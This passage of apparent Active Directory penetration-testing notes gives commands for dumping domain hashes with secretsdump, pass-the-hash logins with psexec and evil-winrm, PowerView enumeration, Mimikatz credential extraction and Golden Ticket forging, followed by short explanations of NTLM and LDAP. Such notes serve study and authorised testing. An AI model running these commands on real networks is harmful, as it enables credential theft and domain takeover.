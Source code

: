 4. `secretsdump.py domain.local/username:'password'@domain.local -just-dc`
   1. DRSUAPI method to get NTDS.DIT secrets
   2. Hash = last :
   3. `psexec.py administrator@ip -hashes <hash>`
   4. `evil-winrm administrator@ip -H hash`

# Post exploitation Method

1. `powershell -ep bypass`
2. Start powerview `. .\Downloads\PowerView.ps1`
3. Enumerate domain users `Get-NetUser | select cn`
4. Enumerate domain groups `Get-NetGroup -GroupName *admin*`
5. Enumerate SMB shares `Get-SmbShare`
6. List OS inside the computer `Get-NetComputer -fulldata | select operatingsystem`

## Mimikatz

privilege::debug
20 ok = Administrator

lsadump::lsa /patch

## Golden Ticket attack

lsadump::lsa /inject /name:krbtgt
kerberos::golden /user: /domain: /sid: /krbtgt: /id:

# NTLM

New Technology Lan Manager
Protocol used to authenticate the users in the AD.

1. User requests access
2. Server sends challenge
3. Client sends response
4. Server sends challenge and response to DC
5. DC compares challenge and response for authentication
6. Server sends DC's response

# LDAP

Lightweight Directory Access Protocol
Similar to NTLM except the application directly verifies the users credentials.
Popular with 3rd party applications that integrate with AD. Such as:

- Gitlab
- Jenkins
- Custom developed web applications
- Printers
- VPNs
